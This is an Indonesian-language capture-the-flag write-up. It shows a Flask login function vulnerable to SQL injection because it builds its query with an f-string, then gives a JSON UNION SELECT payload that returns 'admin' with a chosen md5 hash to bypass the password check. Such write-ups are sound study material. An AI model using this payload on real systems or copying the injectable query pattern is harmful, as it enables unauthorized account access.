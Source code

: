Saat kita melihat source code pada challenge ini, kita akan mendapatkan SQL injection pada fungsi `login()` pada file `/challenge/application/database.py`

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
    ...snip...

```

Fungsi ini akan dipanggil saat kita mengunjungi endpoint `/login` dengan `POST` request.

```python
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    if not username or not password:
        return response('All fields are required!'), 401

    user = login(username, password)

    if user:
        session['auth'] = user
        return response('Success'), 200

    return response('Invalid credentials!'), 403

```

Sekarang mari kita eksploitasi SQL Injection tersebut untuk membypass login page.

Pertama kita perlu mengintercept post request dari login page dan merubah json requestnya menjadi seperti ini.

```json
{"username":"foo\" UNION SELECT 'admin', '7815696ecbf1c96e6894b779456d330e';-- -","password":"asd"}

```

![https://i.imgur.com/BVFEfRz.png](https://i.imgur.com/BVFEfRz.png)

Sedikit penjelasan bahwa `7815696ecbf1c96e6894b779456d330e` adalah md5 dari `asd`, ini dilakukan karna fungsi `passwordVerify()` akan mem-verifikasi dengan mencocokan md5 dari `password` yang kita inputkan di post request dengan md5 dari database, dan karna itu saya menggunakan SQL query UNION untuk mengubah output yang dikeluarkan dari database tersebut.

`database.py`

```python
...snip...
        passwordCheck = passwordVerify(user['password'], password)
...snip...

```
